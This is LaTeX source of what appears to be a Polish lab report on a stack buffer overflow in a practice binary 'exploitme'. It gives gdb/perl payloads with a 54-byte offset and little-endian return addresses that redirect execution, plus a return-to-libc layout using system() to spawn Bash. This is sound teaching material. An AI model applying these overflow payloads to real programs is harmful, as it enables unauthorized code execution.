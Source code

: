 \documentclass[12pt,a4paper,titlepage]{article}
\begin{document}
Należało wykorzystać do tego wcześniej nabytą wiedzę o tym, że 55 bajtów powoduje błąd naruszenia pamięci. Można z tego wywnioskować, że nadpisujemy adres powrotu funkcji. Parametry wywołania aplikacji w GDB należało podać w następującej kolejności:
\newline\newline
\texttt{<offset><return address>}
\newline

Wyposażeni w tę wiedzę mogliśmy spróbować zapisać tam adres, w którym zaczyna się wywołanie pożądanej przez nas funkcji destroy\_world lub reboot. Przedstawione wcześniej adresy musieliśmy podać jako argument wywołania w formacie little endian.


\begin{listing}[H]
\caption{Wywołanie funkcji destroy\_world}
\begin{verbatim}
gdb --args exploitme `perl -e 'print "1"x54 . "\xD7\x85\x04\x08"'`
\end{verbatim}
\end{listing}

\begin{listing}[H]
\caption{Wywołanie funkcji reboot}
\begin{verbatim}
gdb --args exploitme `perl -e 'print "1"x54 . "\xce\x86\x04\x08"'`
\end{verbatim}
\end{listing}

\subsection{Wywołanie funkcji systemowej}
Ostatnim etapem było wywołanie funkcji systemowej, dzięki której otworzy nam się Bash. Po wyjściu z niego komendą \texttt{quit} aplikacja miała zakończyć się bez błędu, z kodem 0x12.\newline\newline
Przydatne w tej części adresy:
\begin{itemize}
    \item \texttt{0x08048454} - wywołanie systemowe (ang. \textit{system call}) 
    \item \texttt{0x080487d0} - Bash (powłoka systemu),
    \item \texttt{0x804084d4} - wywołanie systemowe exit.
\end{itemize}

Pierwszym krokiem było wywołanie funkcji systemowej z parametrem wywołującym powłokę systemu (Bash). Parametry wywołania aplikacji w GDB należało podać w następującej kolejności:
\newline\newline
\texttt{<offset><system><system return><system parameter>}
\newline
\end{document}
